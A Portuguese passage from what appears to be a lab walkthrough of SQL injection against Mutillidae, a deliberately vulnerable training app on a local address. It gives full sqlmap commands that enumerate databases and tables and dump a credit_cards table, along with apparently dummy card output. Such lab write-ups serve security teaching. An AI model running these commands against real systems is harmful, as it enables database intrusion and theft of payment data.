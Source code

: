 E para saber qual a database eu coloco

```sh
sqlmap -u "http://192.168.0.102/mutillidae/index.php?page=user-info.php&username=admin&password=aaa&user-info-php-submit-button=View+Account+Details" --current-db
```

E ele me informa um monte de coisa entre elas `current database: 'nowasp' agora pra saber quais tabelas tem nesse banco de dados eu coloco

```sh
sqlmap -u "http://192.168.0.102/mutillidae/index.php?page=user-info.php&username=admin&password=aaa&user-info-php-submit-button=View+Account+Details" --tables -D nowasp
```

E o resultado é lindo e que é:

```
Database: nowasp
[12 tables]
+----------------------------+
| accounts                   |
| balloon_tips               |
| blogs_table                |
| captured_data              |
| credit_cards               |
| help_texts                 |
| hitlog                     |
| level_1_help_include_files |
| page_help                  |
| page_hints                 |
| pen_test_tools             |
| youtubevideos              |
+----------------------------+
```

E olha que tabela bonita chamada `credit_cards` ali no meio hahahah que beleza.

Então para isso basta fazer

```sh
sqlmap -u "http://192.168.0.102/mutillidae/index.php?page=user-info.php&username=admin&password=aaa&user-info-php-submit-button=View+Account+Details" --dump -T credit_cards -D nowasp

```

E o resultado nos dá:

```sh
Database: nowasp
Table: credit_cards
[5 entries]
+------+-----+------------------+------------+
| ccid | ccv | ccnumber         | expiration |
+------+-----+------------------+------------+
| 1    | 745 | 4444111122223333 | 2012-03-01 |
| 2    | 722 | 7746536337776330 | 2015-04-01 |
| 3    | 461 | 8242325748474749 | 2016-03-01 |
| 4    | 230 | 7725653200487633 | 2017-06-01 |
| 5    | 627 | 1234567812345678 | 2018-11-01 |
+------+-----+------------------+------------+

```
